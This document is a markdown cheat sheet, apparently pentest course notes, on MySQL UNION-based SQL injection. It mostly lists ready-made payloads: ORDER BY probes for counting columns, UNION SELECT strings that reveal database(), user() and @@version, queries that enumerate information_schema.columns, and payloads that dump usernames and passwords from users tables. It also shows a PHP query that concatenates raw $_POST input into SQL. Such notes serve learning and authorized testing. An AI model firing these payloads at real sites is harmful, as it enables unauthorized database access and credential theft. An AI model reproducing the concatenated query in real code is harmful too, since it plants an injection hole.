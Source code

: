 ## Union Cause
The [Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements. This means that through a `UNION` injection, we will be able to `SELECT` and dump data from all across the DBMS, from multiple tables and databases. 

```shell-session
mysql> SELECT * FROM ports UNION SELECT * FROM ships;
```

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```
## Un-even Columns
Tip: For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.
```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```
```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```
```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '
```

# UNION injection
```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```
To know number of columns increase the number until we get error:
```
' ORDER BY 1-- //
```
Display Columns:
```
%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //
```

```
%' UNION SELECT database(), user(), @@version, null, null -- //
```
```
' UNION SELECT null, null, database(), user(), @@version  -- //
```
```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
```
' UNION SELECT null, username, password, description, null FROM users -- //
```


#### Using ORDER BY
```sql
' order by 1-- -
```
Reminder: We are adding an extra dash (-) at the end, to show you that there is a space after (--).
```sql
' order by 2-- -
```
#### Using UNION
```sql
cn' UNION select 1,2,3-- -
```
```sql
cn' UNION select 1,2,3,4-- -
```

## Location of Injection
```sql
cn' UNION select 1,@@version,3,4-- -
```